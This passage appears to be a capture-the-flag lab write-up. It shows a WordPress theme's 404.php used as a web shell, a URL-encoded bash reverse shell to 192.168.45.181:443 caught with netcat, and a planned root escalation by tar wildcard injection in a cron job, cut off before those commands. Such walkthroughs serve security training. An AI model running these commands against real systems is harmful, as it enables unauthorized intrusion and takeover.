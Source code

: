 ```bash
❯ curl -s -X GET 'http://192.168.166.166/wp-content/themes/twentytwentyone/404.php?c=whoami'; echo
alice
```
{: .nolineno }

The output of the command shows that we are executing commands as alice.

I will execute the classic one-liner bash command to send me a reverse shell. (It's important that it's URL-encoded format)

```bash
❯ curl -s -X GET 'http://192.168.166.166/wp-content/themes/twentytwentyone/404.php?c=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.181%2F443%200%3E%261%22'
```
{: .nolineno }

Reverse shell as alice:

```bash
❯ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.45.181] from (UNKNOWN) [192.168.166.166] 43912
bash: cannot set terminal process group (508): Inappropriate ioctl for device
bash: no job control in this shell
alice@readys:/var/www/html/wp-content/themes/twentytwentyone$ whoami
whoami
alice
alice@readys:/var/www/html/wp-content/themes/twentytwentyone$ 
```
{: .nolineno }

### alice to root

Having a shell as **alice**, we have write permissions on `/var/www/html`

```bash
alice@readys:/var/www/html$ touch test.txt
alice@readys:/var/www/html$ ls -l 
total 212
-rw-r--r--  1 alice alice   405 Nov 16  2021 index.php
-rw-r--r--  1 alice alice 19915 Nov 16  2021 license.txt
-rw-r--r--  1 alice alice  7345 Nov 16  2021 readme.html
-rw-r--r--  1 alice alice     0 Sep 14 11:39 test.txt
```
{: .nolineno }

Previously, we enumerated a cronjob that executes a Bash script every three minutes. This script had a programming error when using the **tar** command.

I recommend reading the following article to understand the vulnerability.

Ref: <https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c>

In order to get a **root** shell, I will create a Bash script that grants **SUID** permissions to the `/bin/bash`. This Bash script will be executed through the parameters of the **tar** command. The commands used are:
